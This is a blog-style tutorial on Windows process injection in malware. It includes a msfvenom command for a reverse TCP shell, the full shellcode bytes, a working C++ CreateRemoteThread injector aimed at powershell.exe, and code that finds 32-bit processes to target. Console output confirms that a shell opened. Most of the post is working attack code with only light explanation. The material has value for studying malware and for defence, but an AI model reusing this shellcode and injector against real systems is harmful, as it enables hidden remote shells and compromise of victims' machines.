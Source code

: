 ```yaml
---
layout: post
title:  "Process Injection Techniques"
date:   2023-09-12 00:00:00 +0000
categories: malware
---
```


In this entry, we will dive into Windows process injection techniques demonstrated by malware. Malware authors deploy process injection to run malicious code under another process.

### 1. Payload & Compiling
Many malware authors opt for 32-bit malware, because of it's backwards compatibility with 64-bit systems. 

+ 32-bit processes can run on 64-bit systems.
+ 64-bit processes cannot run on 32-bit systems.

Since most malwares are 32-bit. All code below will be compiled in `x86 (32-bit)`, with the command `g++.exe <input.cpp> -o <output.exe> --std=c++20 -static`.

The issue with writing 32-bit malware, is that it faces difficulties working with the memory of 64-bit processes. We will understand this better later.

A simple reverse TCP shell will be used. The shellcode was generated with the following command - `msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.128 LPORT=443 -f c`. I will exclude the payload code in below examples due to its obstruction.

{% highlight cpp %}

unsigned char payload[] = 
"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30"
"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52"
"\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
"\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b"
"\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03"
"\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b"
"\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
"\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb"
"\x8d\x5d\x68\x33\x32\x00\x00\x68\x77\x73\x32\x5f\x54\x68\x4c"
"\x77\x26\x07\xff\xd5\xb8\x90\x01\x00\x00\x29\xc4\x54\x50\x68"
"\x29\x80\x6b\x00\xff\xd5\x50\x50\x50\x50\x40\x50\x40\x50\x68"
"\xea\x0f\xdf\xe0\xff\xd5\x97\x6a\x05\x68\x0a\x00\x00\x80\x68"
"\x02\x00\x01\xbb\x89\xe6\x6a\x10\x56\x57\x68\x99\xa5\x74\x61"
"\xff\xd5\x85\xc0\x74\x0c\xff\x4e\x08\x75\xec\x68\xf0\xb5\xa2"
"\x56\xff\xd5\x68\x63\x6d\x64\x00\x89\xe3\x57\x57\x57\x31\xf6"
"\x6a\x12\x59\x56\xe2\xfd\x66\xc7\x44\x24\x3c\x01\x01\x8d\x44"
"\x24\x10\xc6\x00\x44\x54\x50\x56\x56\x56\x46\x56\x4e\x56\x56"
"\x53\x56\x68\x79\xcc\x3f\x86\xff\xd5\x89\xe0\x4e\x56\x46\xff"
"\x30\x68\x08\x87\x1d\x60\xff\xd5\xbb\xf0\xb5\xa2\x56\x68\xa6"
"\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb"
"\x47\x13\x72\x6f\x6a\x00\x53\xff\xd5";

{% endhighlight %}

<br>
### 2. CreateRemoteThread Injection
CreateRemoteThread is the most basic form of process injection. In essence, it performs the following calls,
+ `OpenProcess()` to get a handle to the victim process.
+ `VirtualAllocEx()` to allocate a new memory page in the victim process.
+ `WriteProcessMemory()` to inject the shellcode into the new memory page.
+ `CreateRemoteThread()` to start the shellcode, in a new thread, in the new memory page.


<br>
#### 2.1. Where to Inject?
The shellcode cannot be injected into any process of choice. Take this example.

{% highlight cpp %}

#include <windows.h>
#include <tlhelp32.h>
#include <iostream>

int main() {
    HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    HANDLE process_handle;
    PVOID remote_buffer;
    HANDLE remote_thread;

    PROCESSENTRY32 processEntry;
    processEntry.dwSize = sizeof(PROCESSENTRY32);

    while (Process32Next(snapshot, &processEntry)) {
          
        if (strcmp(processEntry.szExeFile, "powershell.exe") == 0) {
            printf("Found powershell.exe\n");

            process_handle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, (int) processEntry.th32ProcessID);
            std::cout << "HANDLE: " << process_handle << std::endl;

            remote_buffer = VirtualAllocEx(process_handle, NULL, sizeof(payload), (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
            std::cout << "Remote Buffer: " << remote_buffer << std::endl;

            bool written = WriteProcessMemory(process_handle, remote_buffer, payload, sizeof(payload), NULL);
            std::cout << "WriteProcessMemory: " << written << std::endl;

            remote_thread = CreateRemoteThread(process_handle, NULL, 0, (LPTHREAD_START_ROUTINE) remote_buffer, NULL, 0, NULL);
            std::cout << "Remote Thread: " << remote_thread << std::endl;

            CloseHandle(process_handle);
            break;
        }
    };

    CloseHandle(snapshot);
    return 0;
}

{% endhighlight %}

<br>
Let's run the code and dissect the output. We notice that `CreateRemoteThread` fails and returns a NULL. If we inspect `GetLastError`, we get `0x5 (ERROR_ACCESS_DENIED)`. But why?

{% highlight powershell %}

C:\Users\root\Desktop
λ injector.exe
Found powershell.exe
Calc HANDLE: 0x104
Remote Buffer: 0xfe0000
WriteProcessMemory: 1
Remote Thread: 0

{% endhighlight %}

<br>
#### 2.2. 32-bit or 64-bit?
The above example fails, because `CreateRemoteThread` cannot be called from a 32-bit process, to start a thread in a 64-bit process. As stated earlier, this is one of the limitations of 32-bit malware.

Now, let's launch a 32-bit powershell.exe process, and run our malware. 

![powershell32](/assets/post_assets/process-injection-techniques/powershell32.png)

<br>
Successfully obtained a handle on the remote thread.

{% highlight powershell%}
C:\Users\root\Desktop
λ injector.exe
Found powershell.exe
HANDLE: 0x118
Remote Buffer: 0x6ac0000
WriteProcessMemory: 1
Remote Thread: 0x12c
{% endhighlight %}

<br>
Popped a shell. Success!

![shell1](/assets/post_assets/process-injection-techniques/shell1.png)


<br>
#### 2.3. Identifying 32-bit processes?
As we learnt above, 32-bit processes must find other 32-bit processes to inject into. 

The below code enumerates all processes in the system with `CreateToolhelp32Snapshot`, then identifies those that are 32-bit.

{% highlight cpp %}
#include <windows.h>
#include <tlhelp32.h>
#include <iostream>

int main(int argc, char** argv) {
    HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    std::string filepath = argv[0];
    int index = filepath.find_last_of("\\/");
    std::string filename = filepath.substr(index + 1);

    PROCESSENTRY32 processEntry;
    processEntry.dwSize = sizeof(PROCESSENTRY32);

    while (Process32Next(snapshot, &processEntry)) {
        HANDLE hProcess = OpenProcess(PROCESS_QUERY_INFORMATION, FALSE, processEntry.th32ProcessID);
        
        BOOL isWow64 = FALSE;
        IsWow64Process(hProcess, &isWow64);
        if (isWow64 && (strcmp(processEntry.szExeFile, filename.c_str()) != 0)) {
            std::cout << "Found 32-bit process: " << processEntry.szExeFile << std::endl;
            // malicious activity 
            break;
        }
    };
}
{% endhighlight %}

<br>
Here's the output. The script successfully identified the Powershell (x86) instance running.

{% highlight powershell %}
PS C:\Users\root\Desktop\check32bit> .\check32bit.exe
Found 32-bit process: powershell.exe
{% endhighlight %}